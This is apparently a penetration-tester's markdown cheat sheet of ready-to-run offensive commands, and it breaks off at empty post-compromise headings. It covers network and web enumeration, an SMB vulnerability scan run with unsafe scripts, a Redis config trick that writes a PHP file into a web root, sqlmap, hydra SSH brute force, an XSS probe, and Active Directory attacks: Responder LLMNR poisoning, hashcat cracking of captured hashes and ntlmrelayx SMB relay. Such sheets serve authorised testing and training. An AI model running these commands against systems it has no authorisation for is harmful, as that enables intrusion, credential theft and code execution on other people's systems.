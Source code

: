 ## Initial Enumeration
### Nmap
```
nmap -sS -sC -oN initial_scan.txt {IP}  
nmap -sS -p- -oN all_ports.txt {IP}
```
```
Scripts
nmap -p 445 --script ms-sql-info <host>
nmap -p 1433 --script ms-sql-info --script-args mssql.instance-port=1433 <host>
nmap --script smb-enum-users.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```
### Gobuster 
```
gobuster dir -u http://url -w /location/wordlist/file.txt  
gobuster vhost -u http://url -w /location/wordlist/file.txt  

/usr/share/seclists/Discovery/Web-Content/common.txt  
/usr/share/seclists/Discovery/Web-Content/big.txt  
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
```


### Enum4Linux
```
enum4linux -e options http://[ip]
```

### HTTP Request Banner Grabbing
```
Using Netcat
nc <target ip> 80

This will connect to the webserver which will allow you to send a request command

Head / HTTP/1.0

Hit enter twice as all headers have two spaces between them and the request. This should then 
return the Header of the request

```
### SMB 
```
nmap -v -sS -p 445,139 -Pn --script smb-vuln* --script-args=unsafe=1 -oA smb_vuln_scan_192.168.189.42 192.168.189.42  

showmount -e 10.10.10.10  

smbclient -L 10.10.10.10

nmap -Pn -p445 - open - max-hostgroup 3 - smb-vuln-ms17-010 script <ip_netblock>

```
### Redis

```
Redis - 6379
nmap --script redis-info -sV -p 6379 <IP>

To check if the db is able to apply Server side execution run the following, then try to run the file from the browser.
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK

>info 
>get config *

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
```

### SQL
```
sqlmap -u http://192.168.202.163/login/index.php?id=1 --batch 
--batch bypasses all options when running commands

```

## Enumerating Discovered Ports

### 22 - SSH 
```
nc -vn <IP> 22
  
msf> use scanner/ssh/ssh_enumusers

hydra -L user.txt -P password.txt {IP} 22
```
  
### 21 FTP 
```
Anonymous Login Enabled
ftp {IP}
anonymous - Username
anonymous - Password 
  ls -al 
  
nmap --script ftp-* -p 21 <ip>

Downloads all files in FTP 
wget -m ftp://anonymous:anonymous@10.10.10.10

Connecting in a browser 
ftp://anonymous:anonymous@10.10.10.10
```

### 80/443 HTTP/HTTPS
#### Nikto 
```
nikto -h {URL}
nikto -h {URL} | tee nikto
```

## Subdomains 
### Sublister
```
sublist3r -d url.com
```

## XSS
### Testing if there is a xss vulnerability 
```
<script>alert("testing")</script>

```
```
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” -p (the_responce_from_the_field_intercepted_in_burp)
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” –auto –reverse-check -s
xsser -u “http://192.168.169.130/xss/example1.php?name=hacker” –heuristic
xsser –gtk - Launch interface
```

## Active Directory
### Initial Attack vectors
### LLMNR Poisoning
```
python Responder.py -l tun0 -rdw 
hashcat -m 5600 hashes.txt rockyou.txt
```
### SMB Relay
```
gedit Responder.conf
python Responder.py -l tun0 -rdw 
python ntlmrelayx.py -tf targets.txt -smb2support (wait for an event)
```

### Post Compromise Enumeration
#### Powerview
```
PowerView Cheat Sheet:  https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993!

#### Bloodhound
### Post Compromise Attacks






